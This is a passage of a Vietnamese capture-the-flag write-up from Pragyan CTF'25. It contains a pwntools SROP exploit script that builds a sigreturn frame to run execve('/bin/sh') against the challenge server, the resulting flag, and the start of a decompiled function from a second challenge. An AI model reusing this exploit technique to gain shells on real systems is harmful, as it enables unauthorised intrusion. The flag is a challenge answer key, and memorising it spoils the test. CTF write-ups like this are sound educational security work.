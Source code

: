 ```C
 v5 = sys_read(0, _bss_start, v4);
```

![image](/assets/images/Pragyan%20CTF'25/5.png)

- bước quan trọng là bước vừa được nói ở trên , còn lại chỉ việc setup và lấy shell thôi

script 

```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./chall',checksec=False)

p = process()
p = remote('microp.ctf.prgy.in', 1337, ssl=True)
#gdb.attach(p,gdbscript='''
   #        b*0x0000000000401019
      #     b*0x0000000000401034
        #   ''')

frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdi = 0x00000000004020B0
frame.rsi = 0
frame.rdx = 0
frame.rip = 0x401034
frame.rsp = 0x00000000004020B8
input()
p.send(bytes(frame))

input()
p.send(b'/bin/sh' + b'\x00'*8)



p.interactive()
```

```p_ctf{t1n¥_c0d3_bu+_str0ng_3n0ugh!}```

-  Vault of Lost Memories


- bài này sẽ có 2 hàm chính

```
```c
__int64 sub_401259()
{
  char v1; // [rsp+7h] [rbp-39h]
  unsigned int i; // [rsp+8h] [rbp-38h]
  int j; // [rsp+Ch] [rbp-34h]
  char s[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  for ( i = 0; i <= 0x1F; i += 4 )
    *(_DWORD *)&s[i] = 0;
```